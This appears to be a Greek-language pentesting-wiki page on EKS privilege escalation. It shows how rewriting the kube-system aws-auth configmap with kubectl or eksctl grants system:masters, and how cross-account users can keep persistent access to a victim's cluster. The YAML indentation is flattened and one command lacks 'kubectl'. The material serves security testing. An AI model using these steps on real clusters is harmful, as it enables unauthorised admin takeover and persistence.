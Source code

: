 Οι αρχές που μπορούν να τροποποιήσουν τα **`configmaps`** στο namespace kube-system στο EKS (χρειάζεται να είναι σε συστήματα AWS) μπορούν να αποκτήσουν προνόμια διαχειριστή συστήματος επανεγγράφοντας το **aws-auth** configmap.\
Οι ρήματα που απαιτούνται είναι **`update`** και **`patch`**, ή **`create`** αν το configmap δεν ήταν ήδη δημιουργημένο:
```bash
# Check if config map exists
get configmap aws-auth -n kube-system -o yaml

## Yaml example
apiVersion: v1
kind: ConfigMap
metadata:
name: aws-auth
namespace: kube-system
data:
mapRoles: |
- rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
username: system:node:{{EC2PrivateDNSName}}
groups:
- system:masters

# Create donfig map is doesn't exist
## Using kubectl and the previous yaml
kubectl apply -f /tmp/aws-auth.yaml
## Using eksctl
eksctl create iamidentitymapping --cluster Testing --region us-east-1 --arn arn:aws:iam::123456789098:role/SomeRoleTestName --group "system:masters" --no-duplicate-arns

# Modify it
kubectl edit -n kube-system configmap/aws-auth
## You can modify it to even give access to users from other accounts
data:
mapRoles: |
- rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
username: system:node:{{EC2PrivateDNSName}}
groups:
- system:masters
mapUsers: |
- userarn: arn:aws:iam::098765432123:user/SomeUserTestName
username: admin
groups:
- system:masters
```
{% endcode %}

{% hint style="warning" %}
Μπορείτε να χρησιμοποιήσετε το **`aws-auth`** για **επιμονή** δίνοντας πρόσβαση σε χρήστες από **άλλους λογαριασμούς**.

Ωστόσο, το `aws --profile other_account eks update-kubeconfig --name <cluster-name>` **δεν λειτουργεί από διαφορετικό λογαριασμό**. Αλλά στην πραγματικότητα, το `aws --profile other_account eks get-token --cluster-name arn:aws:eks:us-east-1:123456789098:cluster/Testing` λειτουργεί αν βάλετε το ARN του cluster αντί για μόνο το όνομα.\
Για να λειτουργήσει το `kubectl`, απλά βεβαιωθείτε ότι **διαμορφώνετε** το **kubeconfig των θυμάτων** και στα ορίσματα εκτέλεσης του aws προσθέστε `--profile other_account_role` ώστε το kubectl να χρησιμοποιεί το προφίλ του άλλου λογαριασμού για να λάβει το token και να επικοινωνήσει με το AWS.
{% endhint %}
